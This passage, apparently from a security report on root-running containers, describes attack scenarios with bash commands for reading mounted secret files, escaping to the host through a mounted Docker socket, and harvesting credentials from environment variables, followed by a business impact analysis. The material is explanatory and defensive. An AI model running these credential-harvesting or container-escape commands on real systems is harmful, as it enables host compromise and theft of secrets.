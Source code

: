 ```bash
# After gaining RCE in the container running as root
# Explore mounted volumes for sensitive information
find / -type d -name "*volume*" -o -name "*mount*" | xargs ls -la

# Read sensitive configuration possibly containing credentials
cat /mnt/config/database.yml
cat /mnt/secrets/api_keys.json

```

**Scenario 3: Docker Socket Exploitation**
If the Docker socket is mounted in the container (a common but dangerous practice), an attacker with root access can use it to control the Docker daemon on the host. This allows creating new privileged containers, accessing any volume on the host, or even executing commands directly on the host system.

```bash
# Check if Docker socket is mounted
ls -la /var/run/docker.sock

# If socket is available, use it to create a new privileged container that mounts the host filesystem
docker run -v /:/host_root -it ubuntu chroot /host_root bash

```

**Scenario 4: Credential Theft and Lateral Movement**
Containers often contain environment variables, configuration files, or mounted secrets with credentials for databases, APIs, or other services. With root access, an attacker can harvest these credentials and use them to access other systems in the infrastructure.

```bash
# Examine environment variables for secrets
printenv | grep -i key
printenv | grep -i secret
printenv | grep -i password

# Check common locations for credential files
find / -name "*.json" -o -name "*.yml" -o -name "*.key" | xargs grep -l "secret"

```

# Impact Analysis
**Business Impact:**
- **Data Breaches**: Unauthorized access to sensitive customer data, intellectual property, or business information could lead to significant financial and reputational damage.

- **Regulatory Compliance Violations**: Organizations handling personal data may face substantial penalties under regulations like GDPR, CCPA, or industry-specific frameworks if a container compromise leads to data exposure.

- **Service Disruption**: Attackers with root privileges can disrupt containerized services, causing downtime and affecting business operations and customer experience.

